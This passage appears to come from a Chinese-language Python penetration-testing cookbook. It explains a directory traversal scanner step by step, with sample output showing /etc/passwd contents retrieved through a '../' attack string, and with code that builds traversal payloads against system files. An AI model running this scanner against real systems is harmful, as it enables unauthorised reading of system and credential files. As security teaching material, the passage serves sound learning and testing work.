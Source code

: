 以下是使用此脚本时生成的输出示例：

```py
Parameter vulnerable

Attack string: ../../../../../etc/passwd

Get me /etc/passwd! File Contents:root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
```

## 它是如何工作的…

我们导入此脚本所需的库，就像我们在本书中迄今为止所做的所有其他脚本一样：

```py
url = sys.argv[1]
```

然后，我们以 URL 的形式进行输入。当我们使用`requests`库时，我们应该确保我们的 URL 与表单请求所期望的匹配，即`http(s)://url`。如果您出错，请求将提醒您：

```py
payloads = {'etc/passwd': 'root', 'boot.ini': '[boot loader]'}
```

我们在字典中建立每次攻击中要发送的有效负载。每对中的第一个值是我们希望尝试加载的文件，第二个值肯定位于该文件中。第二个值越具体，出现的误报越少；然而，这可能会增加假阴性的机会。请随意在此处包含您自己的文件：

```py
up = "../"
i = 0
```

我们提供 up 目录快捷方式`../`并将其分配给 up 变量，我们将循环计数器设置为`0`：

```py
for payload, string in payloads.iteritems():
  while i < 7:
```

`Iteritems`方法允许我们遍历字典，获取每个键和值，并将它们分配给变量。我们将第一个值指定为有效负载，将第二个值指定为字符串。然后，我们对循环设置上限，以防止它在发生故障时永远重复。我已将其设置为`7`，但您可以将其设置为任何值。请记住，web 应用程序的目录结构可能高于`7`：

```py
req = requests.post(url+(i*up)+payload)
```

我们通过获取根 URL 并根据循环和负载添加当前数量的 up 目录来设计请求。然后在 post 请求中发送：

```py
if string in req.text:
      print "Parameter vulnerable\r\n"
      print "Attack string: "+(i*up)+payload+"\r\n"
      print req.text
      break
```
